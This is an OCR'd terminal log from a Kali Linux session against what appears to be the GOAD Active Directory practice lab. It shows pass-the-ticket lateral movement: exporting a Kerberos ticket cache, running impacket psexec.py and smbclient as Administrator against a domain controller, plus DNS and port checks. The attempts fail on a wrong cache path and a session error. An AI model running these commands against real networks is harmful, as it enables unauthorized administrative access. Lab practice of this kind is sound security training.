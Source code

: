 \[\*\]     EncASRepPart  
\[\*\] Saving ticket in WINTERFELL.north.sevenkingdoms.local.ccache  
                                                                                                                                                                  
┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ export KRB5CCNAME=$(pwd)/north.sevenkingdoms.local.ccache  
                                                                                                                                                                  
┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ psexec.py \-k \-no-pass north.sevenkingdoms.local/Administrator@WINTERFELL.north.sevenkingdoms.local  
/home/kali/.venvs/cme/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg\_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg\_resources.html. The pkg\_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools\<81.  
  import pkg\_resources  
Impacket v0.12.0 \- Copyright Fortra, LLC and its affiliated companies 

\[-\] \[Errno 2\] No such file or directory: '/home/kali/goAD-lab/north.sevenkingdoms.local.ccache'  
                                                                                                                                                                  
┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ host WINTERFELL.north.sevenkingdoms.local  
;; communications error to 127.0.0.1\#53: connection refused  
;; communications error to 127.0.0.1\#53: connection refused  
Host WINTERFELL.north.sevenkingdoms.local not found: 3(NXDOMAIN)  
                                                                                                                                                                  
┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ ping WINTERFELL.north.sevenkingdoms.local  
PING WINTERFELL.north.sevenkingdoms.local (192.168.20.11) 56(84) bytes of data.  
64 bytes from WINTERFELL.north.sevenkingdoms.local (192.168.20.11): icmp\_seq=1 ttl=127 time=21.3 ms  
64 bytes from WINTERFELL.north.sevenkingdoms.local (192.168.20.11): icmp\_seq=2 ttl=127 time=17.0 ms  
64 bytes from WINTERFELL.north.sevenkingdoms.local (192.168.20.11): icmp\_seq=3 ttl=127 time=16.1 ms  
64 bytes from WINTERFELL.north.sevenkingdoms.local (192.168.20.11): icmp\_seq=4 ttl=127 time=16.8 ms  
64 bytes from WINTERFELL.north.sevenkingdoms.local (192.168.20.11): icmp\_seq=5 ttl=127 time=21.7 ms  
^C  
\--- WINTERFELL.north.sevenkingdoms.local ping statistics \---  
5 packets transmitted, 5 received, 0% packet loss, time 4005ms  
rtt min/avg/max/mdev \= 16.129/18.610/21.748/2.410 ms  
                                                                                                                                                                  
┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ nc \-vv WINTERFELL.north.sevenkingdoms.local 88  
WINTERFELL.north.sevenkingdoms.local \[192.168.20.11\] 88 (kerberos) open  
^C sent 0, rcvd 0  
                                                                                                                                                                  
┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ host north.sevenkingdoms.local       
;; communications error to 127.0.0.1\#53: connection refused  
;; communications error to 127.0.0.1\#53: connection refused  
Host north.sevenkingdoms.local not found: 3(NXDOMAIN)  
                                                                                                                                                                  
┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ smbclient \-k //WINTERFELL.north.sevenkingdoms.local/C$ \-U Administrator  
WARNING: The option \-k|--kerberos is deprecated\!  
gensec\_spnego\_client\_negTokenInit\_step: Could not find a suitable mechtype in NEG\_TOKEN\_INIT  
session setup failed: NT\_STATUS\_INVALID\_PARAMETER  
                                                                                                                                                                  